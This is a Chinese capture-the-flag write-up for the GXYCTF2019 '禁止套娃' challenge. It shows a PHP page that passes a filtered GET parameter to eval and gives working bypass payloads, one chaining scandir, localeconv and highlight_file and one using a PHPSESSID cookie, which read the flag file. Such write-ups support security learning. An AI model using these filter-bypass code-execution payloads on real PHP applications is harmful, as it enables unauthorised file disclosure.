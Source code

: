 ### [GXYCTF2019]禁止套娃

---

把.git拉下来,发现了index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>

```

#### 方法一：

```php
<?php
$a = localeconv();
print_r($a);

/*
Array
(
    [decimal_point] => .
    [thousands_sep] => 
    [int_curr_symbol] => 
    [currency_symbol] => 
    [mon_decimal_point] => 
    [mon_thousands_sep] => 
    [positive_sign] => 
    [negative_sign] => 
    [int_frac_digits] => 127
    [frac_digits] => 127
    [p_cs_precedes] => 127
    [p_sep_by_space] => 127
    [n_cs_precedes] => 127
    [n_sep_by_space] => 127
    [p_sign_posn] => 127
    [n_sign_posn] => 127
    [grouping] => Array
        (
        )

    [mon_grouping] => Array
        (
        )
)
*/
```

使用`current()`

```php
$b = current($a);
print_r($b);

// .
```

使用`scandir()`

`scandir()` 是 PHP 中的一个内置函数，用于获取指定目录中的文件和子目录列表

```php
$c = scandir(current(localeconv()));
print_r($c);
```

格式化输出：输出`.`目录

```
Array
(
    [0] => .
    [1] => ..
    [2] => .idea
    [3] => 1111.py
    [4] => ceshi
)

```



Payload：

```php
scandir(current(localeconv()))
```

Array ( [0] => . [1] => .. [2] => .git [3] => flag.php [4] => index.php )

```php
?exp=print_r(array_reverse(scandir(current(localeconv()))));
```

Array ( [0] => index.php [1] => flag.php [2] => .git [3] => .. [4] => . )

```php
?exp=print_r(next(array_reverse(scandir(current(localeconv())))));
```

flag.php

```php
?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```

结果如下，得到flag

```php
flag在哪里呢？
<?php
$flag = "flag{7b3d9b1a-291e-4713-908c-c5f6a7856299}";
?>
```



#### 方法二

使用php——sessionID

```php
?exp=highlight_file(session_id(session_start()));
```

在cookie中设置：

```
PHPSESSID = flag.php
```

```php
flag在哪里呢？
<?php
$flag = "flag{8ec834a8-1fdc-4696-a669-470c20322df1}";
?>
```

